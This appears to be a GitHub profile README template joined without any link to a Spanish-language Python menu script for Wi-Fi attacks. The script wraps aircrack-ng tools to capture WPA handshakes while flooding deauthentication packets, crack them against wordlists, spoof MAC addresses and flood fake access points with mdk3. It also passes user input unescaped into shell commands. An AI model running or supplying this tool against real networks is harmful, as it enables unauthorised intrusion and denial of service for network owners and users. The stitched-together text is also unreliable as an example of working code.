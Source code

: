 - 👋 Hi, I’m @Loredgrod
- 👀 I’m interested in ...
- 🌱 I’m currently learning ...
- 💞️ I’m looking to collaborate on ...
- 📫 How to reach me ...

<!---
Loredgrod/Loredgrod is a ✨ special ✨ repository because its `README.md` (this file) appears on your GitHub profile.
You can click the Preview link to take a look at your changes.
--->
from banner.banner import *



def slowly(s):
  try:
    time.sleep(1)
    for w in s + '\n' :
      sys.stdout.write(w)
      sys.stdout.flush()
      time.sleep(7. / 100)
    print('\n')
    time.sleep(2)
  except KeyboardInterrupt:
    time.sleep(1)
    slowly(FAIL+'Exiting...')
    print('\n')
    sys.exit(0)

############################################################

print(" \033[1;37mIntroduzca una opción: ")
WH = int(input(" \033[1;32m>> \033[1;37m"))

if WH == 1:
	os.system("clear")
	banner()
	print(" \033[1;37mIngrese la interfaz: (\033[0;37mwlan\033[0;31m0 \033[1;37m| \033[0;37mwlan\033[0;34m1\033[1;37m)")
	interfaz = input(" \033[1;32m>> \033[0;37m")
	comando = "airmon-ng start {} && airmon-ng check kill".format(interfaz)
	os.system(comando)
	os.system("python3 wifi-hack.py")

elif WH == 2:
    os.system("clear")
    banner()
    print(" \033[1;37mIngrese la interfaz: (\033[0;37mwlan\033[0;31m0\033[0;37mmon \033[1;37m| \033[0;37mwlan\033[0;34m1\033[0;37mmon\033[1;37m)\033[0m")
    interfaz = input(" \033[1;32m>> \033[0;37m")
    comando = "airmon-ng stop {}".format(interfaz)  
    os.system(comando)
    os.system("python3 wifi-hack.py")

elif WH == 3:
	os.system("clear")
	print("\n\033[0m")
	os.system("sudo ifconfig")
	time.sleep(3)
	os.system("clear")
	os.system("python3 wifi-hack.py")

elif WH == 4:
    os.system("clear")
    banner()
    slowly(" \033[1;37mReiniciando red, por favor, espere...\033[0m")
    comando = "service networking restart && systemctl start NetworkManager"
    os.system(comando)
    print(" \033[1;31mProceso finalizado!\033[0m")
    time.sleep(2)
    os.system("clear")
    os.system("python3 wifi-hack.py")


elif WH == 5:
    os.system("clear")
    banner()
    print(" \033[1;37mIngrese la interfaz: (\033[0;37mwlan\033[0;31m0\033[0;37mmon \033[1;37m| \033[0;37mwlan\033[0;34m1\033[0;37mmon\033[1;37m)\033[0m")
    interfaz = input(" \033[1;32m>> \033[0;37m")
    comando = "airodump-ng {}".format(interfaz)
    print("\n \033[1;31m[AVISO] \033[0;37mCuando termine, presione \033[1;37mCTRL + C\033[0m")
    time.sleep(3)
    os.system(comando)
    time.sleep(9)
    os.system("clear")
    os.system("python3 wifi-hack.py") 

elif WH == 6:
    os.system("clear")
    banner()
    print(" \033[1;37mIngrese la interfaz: (\033[0;37mwlan\033[0;31m0\033[0;37mmon \033[1;37m| \033[0;37mwlan\033[0;34m1\033[0;37mmon\033[1;37m)\033[0m")
    interfaz = input(" \033[1;32m>> \033[0;37m")
    comando = "airodump-ng {}".format(interfaz)
    print("\n \033[1;31m[AVISO] \033[0;37mCuando termine, presione \033[1;37mCTRL + C\033[0m")
    time.sleep(2)
    os.system(comando)
    print("\n Ingrese el \033[1;32mBSSID\033[0m del objetivo:")
    bssid = str(input(" \033[1;32m>> \033[0;37m"))
    print("\n Ingrese el \033[1;32mCHANNEL\033[0m del objetivo:")
    channel = int(input(" \033[1;32m>> \033[0;37m"))
    print("\n Ingrese la \033[1;32mRUTA\033[0m donde desea guardar el handshake:")
    ruta = str(input(" \033[1;32m>> \033[0;37m"))
    print("\n Ingrese el número de paquetes (max 10000 | min 0):")
    paquetes = int(input(" \033[1;32m>> \033[0;37m"))
    comando = "airodump-ng -c {} --bssid {} -w {} {} | xterm -e aireplay-ng -0 {} -a {} {}".format(channel,bssid,ruta,interfaz,paquetes,bssid,interfaz)
    os.system(comando)
    time.sleep(2)
    os.system("clear")
    os.system("python3 wifi-hack.py")

elif WH == 7:
    os.system("clear")
    banner()
    print(" \033[1;37mIngrese el handshake:\033[0m")
    ruta = str(input(" \033[1;32m>> \033[0;37m"))
    print("")
    print(" \033[1;37mIngrese el diccionario:\033[0m")
    diccionario = str(input(" \033[1;32m>> \033[0;37m"))
    comando = "aircrack-ng {} -w {}".format(ruta,diccionario)
    os.system(comando)
    exit()

elif WH == 8:
    os.system("clear")
    os.system("wifite")
    time.sleep(4)
    os.system("python3 wifi-hack.py")

elif WH == 9:
    os.system("clear")
    banner()
    print(" \033[1;37mIntroduzca la interfaz: (\033[0;37mwlan\033[0;31m0 \033[1;37m| \033[0;37mwlan\033[0;34m1\033[1;37m)")
    interface = input(" \033[1;32m>> \033[0;37m")
    nuevaMAC= input("Introduzca la nueva dirección MAC: \033[1;32m>> \033[0;37m")
    os.system(f"ifconfig {interface} down")
    print(f"Cambiando la MAC de la interfaz {interface} a {nuevaMAC}")
    os.system(f"ifconfig {interface} hw ether {nuevaMAC}")
    print(f"La dirección MAC cambio a: {nuevaMAC}")
    os.system(f"ifconfig {interface} up")
    print("La interfaz esta lista!")
    time.sleep(1)
    os.system(f"ifconfig {interface}")
    time.sleep(4)
    os.system("clear")
    os.system("python3 wifi-hack.py")    

elif WH == 10:
    os.system('clear')
    banner()
    print(" \033[1;37mIntroduzca la interfaz: (\033[0;37mwlan\033[0;31m0 \033[1;37m| \033[0;37mwlan\033[0;34m1\033[1;37m)")
    interface = input(" \033[1;32m>> \033[0;37m")
    print(" \033[1;37mIntroduzca el canal:")
    channel = input(" \033[1;32m>> \033[0;37m")
    print(" \033[1;37mIngrese el diccionario\033[0m (default: \033[1;37mfakeAP.txt\033[0m): ")
    diccionario = str(input(" \033[1;32m>> \033[0;37m"))
    print("\n \033[1;31m[AVISO] \033[0;37mPresione \033[1;37m\033[1;37mCTRL + C \033[0;37mpara detener el ataque\033[0m")
    os.system("mdk3 {} b -f {} -a -s 1000 -c {}".format(interface,diccionario,channel))
    time.sleep(2)   

elif WH == 0:
    os.system("clear")
    goodbye()
    exit() 

#END CODE       
#Follow me: https://github.com/R3LI4NT
